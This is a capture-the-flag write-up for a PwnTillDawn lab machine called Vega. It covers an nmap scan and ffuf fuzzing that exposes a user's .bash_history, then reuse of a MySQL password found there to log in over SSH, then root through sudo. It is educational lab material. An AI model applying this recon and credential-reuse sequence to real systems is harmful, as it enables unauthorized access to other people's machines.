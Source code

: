 # Vega

![image](https://user-images.githubusercontent.com/5285547/129271964-f9b0b496-735a-4163-92f2-a58d55bed803.png)

PwnTillDwn!!  
IP: 10.150.150.222  
OS: Linux  
Room link: https://online.pwntilldawn.com/Target/Show/3  
Credits:  
https://www.wizlynxgroup.com/  
https://online.pwntilldawn.com/ 


## Enum

I start off with a nmap scan to see whats open on the box. 

nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
8089/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt
```

Enumerating the first port (80)

Main page

![image](https://user-images.githubusercontent.com/5285547/129267028-5957db22-1feb-4f75-b740-dc36ee56034d.png)

```
ffuf -u http://10.150.150.222/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -fc 403 -ic

index.php               [Status: 200, Size: 82798, Words: 35702, Lines: 1100]
robots.txt              [Status: 200, Size: 1, Words: 1, Lines: 2]
.cache                  [Status: 301, Size: 317, Words: 20, Lines: 10]
error.log               [Status: 200, Size: 39898, Words: 3781, Lines: 219]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118]
.bash_logout            [Status: 200, Size: 220, Words: 35, Lines: 8]
training.html           [Status: 200, Size: 36356, Words: 8770, Lines: 607]
.bash_history           [Status: 200, Size: 2235, Words: 176, Lines: 72]
```

Intresting files seeing user files in the results. 

.bash_histroy  (First flag, flag40)

```
history
sudo apt-get update && apt-get upgrade -y
sudo apt install apache2
sudo systemctl enable apache2
sudo apt install mariadb-server
sudo a2enmod rewrite
sudo nano /etc/apache2/sites-available/magento2.example.com.conf
sudo a2dissite 000-default.conf
flag40=<REDACTED>
sudo systemctl reload apache2
sudo a2ensite magento2.example.com.conf
sudo systemctl reload apache2
cd /tmp/
cd logstalgia-1.0.3/
./configure
sudo passwd root
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc
./configure
make
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc++
apt-get install libsdl1.2-dev libsdl-image1.2-dev libpcre3-dev libftgl-dev libpng12-dev libjpeg62-dev make gcc
apt-get install make
mysql -u root -p
apt-get install grsync
apt-get install unison
unisonsudo systemctl restart apache2
ping 1.1.1.1
ping 8.8.8.8
sudo apt install software-properties-common
sudo apt-key adv --recv-keys --keyserver hkp://keyserver.ubuntu.com:80 0xF1656F24C74CD1D8
sudo add-apt-repository 'deb http://mirrors.coreix.net/mariadb/repo/10.2/ubuntu xenial main'
sudo apt update
echo FLAG40=<REDACTED>
sudo apt install mariadb-server -y
netstat -np | grep 22
mysql -u root -p
mysql -u magento -p
sudo apt install php7.0 php7.0-curl php7.0-mysql libapache2-mod-php7.0
sudo nano  /etc/php/7.2/cli/php.ini 
ipconfig
ifconfig
sudo nano  /etc/php/7.2/apache2/php.ini 
sudo nano /etc/apache2/sites-available/magento2.example.com.conf
sudo crontab -u vega -e
sudo systemctl restart apache2
sudo cat /var/log/apache2/error.log 
sudo chown -R www-data:www-data .
sudo nano /etc/apache2/sites-available/magento2.example.com.conf 
sudo /etc/init.d/apache2 restart
sudo nano /etc/apt/sources.list
cd /tmp/
wget http://www.webmin.com/jcameron-key.asc
sudo systemctl reload apache2
cd /tmp/
cd logstalgia-1.0.3/
./configure
cd /home/vega
ls -lah
ifconfig
sudo passwd rootsudo apt-key add jcameron-key.asc
sudo apt update 
sudo apt install webmin 
cd ..
history
mysqldump -u vega --password=<REDACTED> magento2 > dumpmagento.sql
cd /home/vega
ls -lah
ll
sudo su
cd /root/
nano CAM.shortcut
```

We get a username (vega) and password for mysql. 

---

## SSH (User Vega)

Now we try the ssh as vega using the mysql creds, we can also brute force the SSH but it takes a while. 

```
ssh vega@10.150.150.222
# Make sure to correct the password spelling :)
```
Login and grab the user flag.

![image](https://user-images.githubusercontent.com/5285547/129271549-e9293549-e490-49eb-8d54-e7c081d89441.png)


---

## Root

Root is very simple on this box. 

```
sudo su
```

![image](https://user-images.githubusercontent.com/5285547/129271663-13878620-38b1-46c5-ae9f-126b0c585628.png)

Awesome box and good fun.
